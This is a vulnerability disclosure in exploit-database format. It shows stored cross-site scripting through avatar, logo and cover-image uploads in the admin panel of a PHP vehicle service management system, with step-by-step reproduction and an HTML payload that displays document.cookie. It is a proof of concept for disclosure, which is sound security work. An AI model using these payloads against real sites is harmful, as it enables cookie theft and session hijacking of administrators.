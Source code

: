 # Vehicle Service Management System - 'Multiple' File upload Leads to Stored Cross-Site Scripting
Vehicle Service Management System - 'Multiple' File upload Leads to Stored Cross-Site Scripting

### Exploit Title: Vehicle Service Management System - 'Multiple' File upload Leads to Stored Cross-Site Scripting
### Date: 28/12/2021
### Exploit Author: P.L.Sanu
### Exploit Author Website: https://www.plsanu.com
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/14972/vehicle-service-management-system-php-free-source-code.html
### Version: <= 1.0
### Tested on: Windows 10
### CVE : 
### Google Dork: N/A
### Reference: 
- https://www.plsanu.com/vehicle-service-management-system-multiple-file-upload-leads-to-stored-cross-site-scripting
- https://github.com/plsanu/Vehicle-Service-Management-System-Multiple-File-upload-Leads-to-Stored-Cross-Site-Scripting

### 1. Vehicle Service Management System - 'MyAccount' (/admin/?page=user)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to My Account section http://localhost/vehicle_service/admin/?page=user

### Code:
```html
<!DOCTYPE html>
<html>
<title>Stored XSS</title>
<body>
<script>
alert(document.cookie);
</script>
</body>
</html>
```
3. Save the above html code For Ex:XSS.html
4. In My Account Section enter all the required details and browse the html file in Avatar.
5. Click on update button.
6. Open the avatar image in new tab.
7. Malicious javascript code triggered.

### 2. Vehicle Service Management System - 'User List' (/admin/?page=user/manage_user)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to User List section and click on Create New button.

### Code:
```html
<!DOCTYPE html>
<html>
<title>Stored XSS</title>
<body>
<script>
alert(document.cookie);
</script>
</body>
</html>
```
3. Save the above html code For Ex:XSS.html
4. In Create New User Page enter all the required details and browse the html file in Avatar.
5. Click on Save button.
6. Open the avatar image in new tab.
7. Malicious javascript code triggered.

### 3. Vehicle Service Management System - 'Settings-System Logo' (/admin/?page=system_info)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info

### Code:
```html
<!DOCTYPE html>
<html>
<title>Stored XSS</title>
<body>
<script>
alert(document.cookie);
</script>
</body>
</html>
```
3. Save the above html code For Ex:XSS.html
4. In Settings Section enter all the required details and browse the html file in System Logo.
5. Click on update button.
6. Open the System Logo image in new tab.
7. Malicious javascript code triggered.

### 4. Vehicle Service Management System - 'Settings-Website Cover' (/admin/?page=system_info)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info

### Code:
```html
<!DOCTYPE html>
<html>
<title>Stored XSS</title>
<body>
<script>
alert(document.cookie);
</script>
</body>
</html>
```
3. Save the above html code For Ex:XSS.html
4. In Settings Section enter all the required details and browse the html file in Website Cover.
5. Click on update button.
6. Open the Website Cover image in new tab.
7. Malicious javascript code triggered.
